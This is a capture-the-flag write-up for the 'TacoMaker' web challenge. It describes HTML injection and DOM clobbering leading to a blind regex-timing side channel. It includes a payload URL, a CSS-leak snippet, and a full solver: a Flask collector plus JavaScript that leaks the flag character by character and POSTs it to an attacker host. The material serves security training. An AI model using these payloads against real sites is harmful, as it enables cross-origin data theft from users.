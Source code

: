 # TacoMaker @ DEKRA CTF 2022

## Description
What a taco to be alive!

## Solution

HTML Injection (CSP is very strict by blocklisting scripts by their sha256 hash) leading to DOM Clobbering to create a valid reference to `window.config`, `window.config.dev` and `window.ingredient`. Setting `window.ingredient`'s `href` will make its reference return a valid string which is then appended to a GET parameter value. Since `web.py:25` uses the last `ingredient` value, we may pollute the query by adding another `ingredient` value. After some checks in `getTaco` to make sure the query comes from selenium in the chall's origin (since referer header can't be changed by JS, only *shared* by using `no-referer` policy), there's a `re.match` call using previosuly-seen `ingredient` value as the regular expression it will be executing. By applying a technique like `forward search` (`foo(((.*)*)*)!`), when `foo` does exist, the rest of the expression takes exponential time to load. 

The side channel technique consists of checking the document's active element once an iframe hosting the challenge's page has been loaded. Since a `div` gets focused once the image has been loaded, checking if the active elements keeps being the document's body after a while means the iframe hasn't been loaded (or it is still loading), and so the regular expression works.

```
http://chall/?taco_name=<a id=config></a><a id=config name=dev></a><a id=ingredient href="//foo.bar/&ingredient=REGEX_INJECTION"></a>
```

## Extra

### CSS leak (patched) (@julianjm)

`img[src=^='static/taco3.jpg']{backgroud-image: url(your.server)}`

https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf

https://github.com/d0nutptr/sic

### URL parsing inconsistency/confusion (@hanstopoman)

`/.png;/../` -> chrome `/` & urlparse `/.png`

Unexploitable because a GET parameter is needed, thus providing a `?` like `/.png?something;/../` would make `something;/../` seen as GET data. 

https://claroty.com/wp-content/uploads/2022/01/Exploiting-URL-Parsing-Confusion.pdf-

## solver.py

```py
from flask import Flask, request
from sys import stderr
from os import environ
import logging
import re

# Disable ALL flask output
logging.getLogger('werkzeug').disabled = True
environ['WERKZEUG_RUN_MAIN'] = 'true'

app = Flask(__name__)
flag = "FLAG{"


@app.route('/solve.png', methods=['GET'])
def get_file():
    global flag
    return open('solver.html').read().replace("FLAGHERE", flag.replace("\\", "\\\\"))


@app.route('/exfil', methods=['POST'])
def exfil():
    print(request.data.decode())
    return ""


@app.route('/setFlag', methods=['POST'])
def setflag():
    global flag
    flag = request.data.decode()
    print("Flag: " + flag)
    return ""


if __name__ == "__main__":
    app.run(port=1337)
```

## solver.html

```js
const EXFIL_URL = 'http://x.ngrok.io'
const CHALL_URL = 'http://tacomaker:4000'
const ALPHABET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ%-'\\\"!¡¿?&(),/:;<=>@[]_`{}~".split(""); // python's string.printable
const CLOBBERING = '<a id=config></a><a id=config name=dev></a><a id=ingredient href="//foo.bar/&ingredient=INJECTION"></a>'
var known = "FLAGHERE", opened = 0;
const PARALLEL_WINDOWS = 5;

// https://developer.mozilla.org/es/docs/Web/JavaScript/Guide/Regular_Expressions
function escapeRegExp(string) {
    return string.replace(/[.*+\-?^$()|[\]\\]/g, '\\$&');
}

async function exfil(msg) {
    console.log(msg)
    await fetch(`${EXFIL_URL}/exfil`, { method: 'POST', body: msg, mode: 'no-cors' })
}

async function setFlag(flag) {
    await fetch(`${EXFIL_URL}/setFlag`, { method: 'POST', body: flag, mode: 'no-cors' })
}

async function leak(char) {
    let win = window.open(`${location.href}?foo`, "_blank"); // ?foo => location.search
    exfil(`Testing ${known}(${char}) - ${opened}`); // await may make the script take too long
    win.addEventListener("load", function () {
        win.postMessage({ 'regex': `${encodeURIComponent(escapeRegExp(known + char))}(((((.*)*)*)*)*)!`, 'flag': `${known + char}` }, "*");
    })
}

if (location.search.substr(1)) {

    // sub
    window.addEventListener("message", (event) => {
        var frame = document.createElement('iframe')
        let param = encodeURIComponent(CLOBBERING.replace('INJECTION', event.data.regex))
        frame.src = `${CHALL_URL}/?taco_name=${param}`

        frame.onload = function () {
            let counter = 0
            setInterval((() => {
                if (document.activeElement != document.body) {
                    event.source.postMessage("foo", "*")
                } else {
                    if (counter > 3) { // 5s
                        event.source.postMessage(event.data.flag, "*")
                    } else {
                        counter++;
                    }
                }
            }), 1000)
        }

        document.body.appendChild(frame);

    });

} else {

    // main
    window.addEventListener("message", (event) => {
        if (event.data != "foo") {
            known = event.data;
            setFlag(known)
        }
        event.source.close()
        opened--
    });


    let iterator = 0;

    setInterval((() => {
        if (opened <= PARALLEL_WINDOWS) {
            leak(ALPHABET[iterator])
            opened++

            if (iterator == ALPHABET.length - 1) {
                iterator = 0;
            } else {
                ++iterator;
            }
        }
    }), 100)
}
```

## References

https://terjanq.medium.com/dom-clobbering-techniques-8443547ebe94

https://stackoverflow.com/questions/1599660/which-html-elements-can-receive-focus

https://blog.p6.is/time-based-regex-injection/ , https://diary.shift-js.info/blind-regular-expression-injection/
